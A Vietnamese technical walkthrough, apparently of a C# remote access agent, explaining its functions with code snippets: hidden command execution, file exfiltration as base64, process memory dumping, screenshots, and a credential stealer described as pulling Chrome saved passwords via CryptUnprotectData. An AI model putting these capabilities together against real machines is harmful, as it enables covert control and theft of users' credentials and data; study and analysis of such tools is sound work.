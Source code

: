 
🧩 Thư viện liên quan

🧠 Lý do sử dụng

🧪 Chi tiết cách hoạt động

### 1. ExecuteCommand(string command)
📚 Thư viện dùng:
```csharp
using System.Diagnostics;
```
💡 Chức năng thư viện:
Cung cấp API để làm việc với tiến trình (Process), dùng để thực thi command trên hệ điều hành.

🧠 Cách code:
```csharp
ProcessStartInfo procStartInfo = new ProcessStartInfo("cmd", "/c " + command);
procStartInfo.RedirectStandardOutput = true;
procStartInfo.UseShellExecute = false;
procStartInfo.CreateNoWindow = true;

Process proc = new() { StartInfo = procStartInfo };
proc.Start();
result = proc.StandardOutput.ReadToEnd();
```

⚙️ Giải thích:
cmd /c chạy một lệnh rồi thoát.

RedirectStandardOutput = true giúp lấy đầu ra dòng lệnh (stdout).

CreateNoWindow = true không hiện cửa sổ console.

UseShellExecute = false để cho phép redirect stream.

### 2. GetFile(string path)
📚 Thư viện dùng:
```csharp
using System.IO;
```
💡 Chức năng thư viện:
Đọc, ghi file (dạng byte), mã hóa base64.

🧠 Cách code:
```csharp
byte[] fileContent = File.ReadAllBytes(path);
string fileContent64 = Encryptor.ConvertStr(fileContent);
File.ReadAllBytes(path) đọc toàn bộ file thành mảng byte[].

Encryptor.ConvertStr(...) chuyển thành base64 (giả định là Base64 encoding).
```

### 3. GetSystemInfo()
📚 Thư viện dùng:
```csharp
using System.Management;
using Microsoft.Win32;
using System.Net;
```
💡 Thư viện quan trọng:
System.Management: dùng WMI để truy xuất info OS, RAM, Disk.

Microsoft.Win32: đọc registry.

System.Net: lấy IP.

🧠 Ví dụ cụ thể:
Lấy tên máy từ Registry:

```csharp
string path = @"HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ActiveComputerName";
string name = Registry.GetValue(path, "ComputerName", "").ToString();
//Lấy IP nội bộ:
string hostName = Dns.GetHostName();
IPAddress[] addr = Dns.GetHostEntry(hostName).AddressList;
//Lấy RAM bằng WMI:
ManagementObjectSearcher searcher = new("SELECT TotalVisibleMemorySize, FreePhysicalMemory FROM Win32_OperatingSystem");
```
### 4. GetProcDump(string pid)
📚 Thư viện thường dùng:
Giả định MiniDumpHandler là module tự định nghĩa hoặc wrapper cho DbgHelp.dll.

Cần Windows API như: MiniDumpWriteDump() từ DbgHelp.dll.

🧠 Cách hoạt động:
Mở handle tiến trình (OpenProcess).

Tạo file dump (MiniDumpWriteDump(handle, ...)) ghi ra file .dmp.

### 5. GetScreenShot()
📚 Thư viện dùng:
```csharp
using System.Drawing;
using System.Drawing.Imaging;
using System.Runtime.InteropServices;
```
💡 Mục tiêu:
Chụp màn hình bằng WinAPI và GDI+.

🧠 Code quan trọng:
```csharp
Rectangle bounds = new Rectangle(left, top, width, height);
Bitmap result = new Bitmap(bounds.Width, bounds.Height, PixelFormat.Format32bppArgb);

using (Graphics graphics = Graphics.FromImage(result))
{
    graphics.CopyFromScreen(new Point(bounds.Left, bounds.Top), Point.Empty, bounds.Size);
}
Graphics.CopyFromScreen → chụp toàn bộ màn hình theo kích thước virtual screen.
```
Bitmap → tạo ảnh để lưu về MemoryStream.

### 6. GetProcList()
📚 Thư viện:
```csharp
using System.Diagnostics;
```
🧠 Cách code:
```csharp
Process[] processes = Process.GetProcesses();
foreach (Process process in processes)
{
    string info = $"{process.ProcessName} -- {process.Id} -- {process.Threads.Count} -- {process.WorkingSet64}";
}
Lấy danh sách tất cả tiến trình.

WorkingSet64: lượng RAM tiến trình sử dụng.

Threads.Count: số thread trong tiến trình.
```
### 7. Stealer.GetCredentials()
📚 Không có sẵn trong .NET
Có thể là custom module dùng Windows API, hoặc can thiệp trình duyệt.

🧠 Cách thường dùng (nếu reverse malware):
Trích xuất từ Chrome Login Data SQLite file.

Dùng CryptUnprotectData (WinAPI) để giải mã mật khẩu.

### 8. CaptureDesktop() / CaptureWindow()...
📚 Thư viện:
```csharp
using System.Runtime.InteropServices;
```
🧠 WinAPI liên quan:
GetSystemMetrics, GetWindowRect, GetForegroundWindow: lấy kích thước màn hình/tiến trình đang focus.
```csharp
Graphics.CopyFromScreen: chụp màn hình.
```
Ví dụ:
```csharp
[DllImport("user32.dll")]
private static extern IntPtr GetForegroundWindow();
```
Dùng DllImport để gọi hàm gốc từ user32.dll.

### 9. ReceiveFile(...)
📚 Thư viện:
```csharp
using System.Collections.Concurrent;
using System.IO;
```
🧠 Ý nghĩa:
Dùng ConcurrentDictionary để gom các chunk file theo chỉ số.

Gộp và ghi thành file mới:

```csharp
string fileBase64 = string.Join("", chunks.OrderBy(kv => kv.Key).Select(kv => kv.Value));
byte[] fileData = Encryptor.InvertStr(fileBase64);
File.WriteAllBytes(filePath, fileData);
```